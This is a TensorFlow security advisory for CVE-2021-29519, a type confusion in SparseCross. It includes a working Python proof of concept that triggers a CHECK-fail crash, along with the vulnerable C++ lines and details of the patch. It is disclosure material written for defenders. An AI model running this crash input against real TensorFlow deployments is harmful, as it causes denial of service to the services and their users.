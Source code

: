 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-008.md
## TFSA-2021-008: `CHECK`-fail in `SparseCross` due to type confusion

### CVE Number
CVE-2021-29519

### Impact
The API of `tf.raw_ops.SparseCross` allows combinations which would
result in a `CHECK`-failure and denial of service:

```python
import tensorflow as tf

hashed_output = False
num_buckets = 1949315406
hash_key = 1869835877
out_type = tf.string
internal_type = tf.string

indices_1 = tf.constant([0, 6], shape=[1, 2], dtype=tf.int64)
indices_2 = tf.constant([0, 0], shape=[1, 2], dtype=tf.int64)
indices = [indices_1, indices_2]

values_1 = tf.constant([0], dtype=tf.int64)
values_2 = tf.constant([72], dtype=tf.int64)
values = [values_1, values_2]

batch_size = 4
shape_1 = tf.constant([4, 122], dtype=tf.int64)
shape_2 = tf.constant([4, 188], dtype=tf.int64)
shapes = [shape_1, shape_2]

dense_1 = tf.constant([188, 127, 336, 0], shape=[4, 1], dtype=tf.int64)
dense_2 = tf.constant([341, 470, 470, 470], shape=[4, 1], dtype=tf.int64)
dense_3 = tf.constant([188, 188, 341, 922], shape=[4, 1], dtype=tf.int64)
denses = [dense_1, dense_2, dense_3]

tf.raw_ops.SparseCross(indices=indices, values=values, shapes=shapes, dense_inputs=denses, hashed_output=hashed_output,
                       num_buckets=num_buckets, hash_key=hash_key, out_type=out_type, internal_type=internal_type)
```

The above code will result in a `CHECK` fail in
[`tensor.cc`](https://github.com/tensorflow/tensorflow/blob/3d782b7d47b1bf2ed32bd4a246d6d6cadc4c903d/tensorflow/core/framework/tensor.cc#L670-L675):

```cc
void Tensor::CheckTypeAndIsAligned(DataType expected_dtype) const {
  CHECK_EQ(dtype(), expected_dtype)
      << " " << DataTypeString(expected_dtype) << " expected, got "
      << DataTypeString(dtype());
  ...
}
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/3d782b7d47b1bf2ed32bd4a246d6d6cadc4c903d/tensorflow/core/kernels/sparse_cross_op.cc#L114-L116)
is tricked to consider a tensor of type `tstring` which in fact contains
integral elements:

```cc
  if (DT_STRING == values_.dtype())
      return Fingerprint64(values_.vec<tstring>().data()[start + n]);
  return values_.vec<int64>().data()[start + n];
```

Fixing the type confusion by preventing mixing `DT_STRING` and `DT_INT64` types
solves this issue.

### Patches
We have patched the issue in GitHub commit
[b1cc5e5a50e7cee09f2c6eb48eb40ee9c4125025](https://github.com/tensorflow/tensorflow/commit/b1cc5e5a50e7cee09f2c6eb48eb40ee9c4125025).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
